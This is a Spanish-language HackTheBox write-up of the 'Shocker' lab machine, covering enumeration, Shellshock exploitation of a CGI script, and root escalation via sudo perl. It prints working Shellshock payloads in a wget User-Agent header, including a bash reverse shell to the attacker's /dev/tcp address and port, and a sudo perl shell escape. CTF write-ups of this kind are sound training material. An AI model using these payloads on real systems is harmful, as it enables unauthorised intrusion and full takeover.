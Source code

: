 ```yaml
---
title: "Shocker - HTB Writeup"
layout: single
excerpt: "Shocker es una máquina de dificultad fácil de HackTheBox. Como el nombre de la máquina indica, se obtiene acceso a la máquina mediante la vulnerabilidad shellshock, para luego escalar privilegios abusando de un privilegio de sudoers que permite ejecutar perl como usuario root."
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/67548295/126992433-efd2ea6c-4892-433f-86e7-8f19e31063ac.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/67548295/191989683-8e498bfd-d8dd-4e45-b929-f557100f9648.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - ShellShock
  - Perl
  - Sudo
---
```



![titulo](https://user-images.githubusercontent.com/67548295/124353510-76699200-dbf6-11eb-81f4-54547de662d1.png)


# Enumeración

Primero, antes de empezar a escanear puertos y todo lo demás, voy a lanzar una traza ICMP con ```ping``` para ver si la máquina está activa:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $ping -c 1 10.10.10.56
PING 10.10.10.56 (10.10.10.56) 56(84) bytes of data.
64 bytes from 10.10.10.56: icmp_seq=1 ttl=63 time=69.3 ms

--- 10.10.10.56 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 69.344/69.344/69.344/0.000 ms
```

La máquina nos contesta, quiere decir que está activa, y además mediante el TTL puedo ver que es una máquina con OS Linux.

Más información sobre la deteccion de OS mediante TTL [aquí](https://subinsb.com/default-device-ttl-values/){:target="\_blank"}{:rel="noopener nofollow"}.

También puedes hacer uso de mi herramienta [OSidentifier](https://github.com/z3robyte/OSidentifier){:target="\_blank"}{:rel="noopener nofollow"}.

# Nmap

Comenzamos con el escaneo de puertos:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $nmap --open -n -T5 10.10.10.56 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 13:11 WEST
Nmap scan report for 10.10.10.56
Host is up (0.071s latency).
Not shown: 691 closed ports, 307 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```

Podemos ver que tenemos el puerto 2222 y 80:
* 80 --> HTTP
* 2222 --> SSH

# User

Vamos a ver lo que hay en el servidor web que hay por el puerto 80:

![navegador1](https://user-images.githubusercontent.com/67548295/124353831-6baffc80-dbf8-11eb-8a89-943741d1ca3a.png)

Y podemos ver que solo hay una simple imagen.

Después de esto, hago uso de la herramienta ```wfuzz``` para enumerar directorios en la web:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wfuzz -c --hc=404 -w /usr/share/dirb/wordlists/big.txt -u "http://10.10.10.56/FUZZ" -t 50

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/FUZZ
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000016:   403        11 L     32 W       295 Ch      ".htpasswd"                                                                                                               
000000015:   403        11 L     32 W       295 Ch      ".htaccess"                                                                                                               
000004349:   403        11 L     32 W       294 Ch      "cgi-bin/"                                                                                                                
```
Y vemos que hay un directorio cgi-bin. Seguidamente pruebo a fuzzear en ese directorio en busca de archivos con extensiones comunes.

Ya que si hay archivos y la version de bash es vulnerable, podriamos aprovecharnos de la vulnerabilidad ShellShock para ganar acceso al sistema.

ShellShock es una vulnerabilidad descubierta en 2014 que permite ejecutar codigo de forma remota en la maquina de la victima, [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271){:target="\_blank"}{:rel="noopener nofollow"}

Esta vulnerabilidad es posible porque porque bash permite declarar funciones, pero estas no se validan de forma correcta cuando se almacenan en una variable.

Sabiendo esto, fuzzeo por esa ruta encontrada: 

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $gobuster dir -u "http://10.10.10.56/cgi-bin/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,sh,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,sh,py
[+] Timeout:        10s
===============================================================
2021/07/03 13:46:57 Starting gobuster
===============================================================
/user.sh (Status: 200)
```
Hay un script con nombre _user.sh_, lo descargo pero no hay nada interesante en el.

Pruebo a ver si es vulnerable a la vulnerabilidad ShellShock:

```bash
|─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "ping -c 1 10.10.16.15"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:54:39--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 500 Internal Server Error
2021-07-03 13:54:40 ERROR 500: Internal Server Error.
```

Ahi he probado a mandarme una traza icmp a mi maquina mientras estaba en escucha con ```tcpdump```
y me ha llegado la petición:

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $sudo tcpdump -i tun0 icmp
 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:54:40.138435 IP 10.10.10.56 > 10.10.16.15: ICMP echo request, id 13628, seq 1, length 64
13:54:40.138492 IP 10.10.16.15 > 10.10.10.56: ICMP echo reply, id 13628, seq 1, length 64

```

Pues bueno, ya teniendo ejecución remota de comandos, es muy sencillo ganar acceso al sistema.

Una simple reverse shell en bash sirve:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.15/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:59:05--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 
```
Hacemos la petición a la vez que estamos en escucha por el puerto especificado en la reverse shell.

Y obtenemos acceso al sistema:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.56 42136
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

A partir de aqui podemos ver la flag del user:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt

cf33XXXXXXXXXXXXXXXXXXXXd5c573fd

shelly@Shocker:/usr/lib/cgi-bin$
```

# Privilege Escalation

Enumerando el sistema en busca de un vector para escalar privilegios, me encuentro que podemos ejecutar ```perl``` como el usuario root:

```bash
shelly@Shocker:/$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/$ 
```
Hago uso de la utilidad [GTFObins](https://gtfobins.github.io/){:target="\_blank"}{:rel="noopener nofollow"} para spawnear una bash con perl:

![navegador2](https://user-images.githubusercontent.com/67548295/124355337-1546bc00-dc00-11eb-87aa-a0b3d8374d22.png)

Como se puede ver, podemos generar una shell con ese comando. Como podemos correr perl como root, ya podemos rootear la maquina:

```bash
shelly@Shocker:/$ sudo /usr/bin/perl -e 'exec "/bin/sh";'

# id

uid=0(root) gid=0(root) groups=0(root)
```

Y listo, máquina rooteada. En /root/ podremos ver la flag de root:

```bash
# cat /root/root.txt

2eb63e9XXXXXXXXXXXXXXXXXXXX90d45
```

# Opinión y autoPWN

La máquina ha sido bastante facil, pero a la vez me ha permitido repasar conceptos, me ha gustado.
En mi github está disponible un [script autoPWN](https://github.com/z3rObyte/HackTheBox-Autopwn/blob/main/Shocker-autoPWN.py){:target="\_blank"}{:rel="noopener nofollow"} que te automatiza toda la explotación y te devuelve una shell como root en la máquina victima.




